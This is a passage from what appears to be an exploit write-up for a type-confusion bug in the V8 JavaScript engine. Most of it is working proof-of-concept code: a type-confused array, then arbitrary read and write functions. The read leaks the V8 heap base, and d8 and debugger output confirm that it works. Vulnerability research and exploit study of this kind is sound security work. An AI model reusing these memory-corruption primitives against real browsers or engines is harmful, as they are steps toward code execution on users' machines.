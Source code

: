 ```js

for (let i = 0; i < 16; i++) { r.delete(i); }

let type_confused_array = r.size

```

Running the updated poc we can see that r.size is now `fake_arr_struct[1]`
```js
d8> %DebugPrint(type_confused_array)
DebugPrint: 0000034000049D19: [JSArray]
 - map: 0x03400018ed71 <Map[16](PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x03400018e6e5 <JSArray[0]>
 - elements: 0x034041414141
```

Now we can create an arb read and read the base of V8 to check it works:
```javascript
function ftoi(f) {
    f_buf[0] = f;
    return i_buf[0];
}

function hex(i) {
    return '0x' + i.toString(16);
}

function arb_read(addr) {
    elements = addr - 8n + 1n;
    fake_arr_struct[1] = itof(elements | length << 32n);
    return type_confused_array[0];
}
let v8base = (ftoi(arb_read(0x24)) & 0xffffffffn) << 32n;
console.log('[+] V8 base: ' + hex(v8base));
```

```
[+] V8 base: 0x2bf00000000
V8 version 12.2.0 (candidate)
d8>
---
0:006> dd 0x2bf00000000+24
000002bf`00000024  000002bf 0003ff74 00000000 00000000
```
:D

We can also convert the arb_read into an arb_write really easily:
```javascript
function arb_write(addr, value) {
    elements = addr - 8n + 1n;
    fake_arr_struct[1] = itof(elements | length << 32n);
	type_confused_array[0] = itof(value)
}
```
